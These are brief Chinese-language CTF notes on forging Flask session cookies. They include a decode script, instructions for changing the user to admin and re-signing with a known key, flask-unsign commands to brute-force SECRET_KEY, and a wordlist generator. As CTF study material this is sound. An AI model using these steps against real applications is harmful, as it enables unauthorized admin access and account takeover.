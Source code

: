<https://www.cnblogs.com/chrysanthemum/p/11722351.html>
<https://www.cnblogs.com/murkuo/p/15174413.html>
先获取session的解密原session。
python ctf/flask_decode.py   .eJw9kE-xxx

session.get('a')  即 session['a'] 即 jwt令牌中的a参数。
```
#!/usr/bin/env python3
import sys
import zlib
from base64 import b64decode
from flask.sessions import session_json_serializer
from itsdangerous import base64_decode

def decryption(payload):
    payload, sig = payload.rsplit(b'.', 1)
    payload, timestamp = payload.rsplit(b'.', 1)

    decompress = False
    if payload.startswith(b'.'):
        payload = payload[1:]
        decompress = True

    try:
        payload = base64_decode(payload)
    except Exception as e:
        raise Exception('Could not base64 decode the payload because of an exception')

    if decompress:
        try:
            payload = zlib.decompress(payload)
        except Exception as e:
            raise Exception('Could not zlib decompress the payload before decoding the payload')

    return session_json_serializer.loads(payload)

if __name__ == '__main__':
    print(decryption(sys.argv[1].encode()))
```
修改里面的载体，如user改admin。
```
{'_fresh': True, '_id': b'5016bfd6a1eef38b37a3b1c03b7f1e74732a70b3abc44761d5d15d0f6574dc821644
655dce770b636ffcc53630c04aa2e6daab6dc4db050ec87d4c17ce98312e', 'csrf_token': b'adc491f7ab2338c
3c8ab97ac918bb6149a539c74', 'image': b'8P3o', 'name': 'admin', 'user_id': '10'}
```

再加密：
使用密钥+载体字符生成新session脚本：
<https://github.com/noraj/flask-session-cookie-manager>

```
python flask_session_cookie_manager3.py encode -s '密钥' -t '载体'

python flask_session_cookie_manager3.py encode -s "ckj123" -t  "{'_fresh': True, '_id': b'5016bfd6a1eef38b37a3b1c03b7f1e74732a70b3abc44761d5d15d0f6574dc821644
655dce770b636ffcc53630c04aa2e6daab6dc4db050ec87d4c17ce98312e', 'csrf_token': b'adc491f7ab2338c
3c8ab97ac918bb6149a539c74', 'image': b'8P3o', 'name': 'admin', 'user_id': '10'}"
```


最后抓包替换即可。


^
## **爆破SECRET_KEY**
用flask-unsign爆破SECRET_KEY
```
pip311 install flask-unsign[wordlist]


flask-unsign --unsign -c eyJ1c2VybmFtZSI6ImxieiJ9.ZoO6sQ.1qmeqKQDnxZyPqeCWGtw_50wWss --wordlist key1.txt

自动破解
flask-unsign --decode --cookie 'eyJ1c2VybmFtZSI6ImxieiJ9.ZoO6sQ.1qmeqKQDnxZyPqeCWGtw_50wWss'
自动破解并输出密钥
flask-unsign --unsign --cookie 'eyJ1c2VybmFtZSI6ImxieiJ9.ZoO6sQ.1qmeqKQDnxZyPqeCWGtw_50wWss'
```
或./jwtcrack



^
字典生成
列如：os.urandom(2).hex()会生成长度为4的字符串
```
import os
file_path='./key.txt'
with open(file_path, 'w') as f:
    for i in range(1,9999):
        key = os.urandom(2).hex()
        f.write("\"{}\"\n".format(key))
```



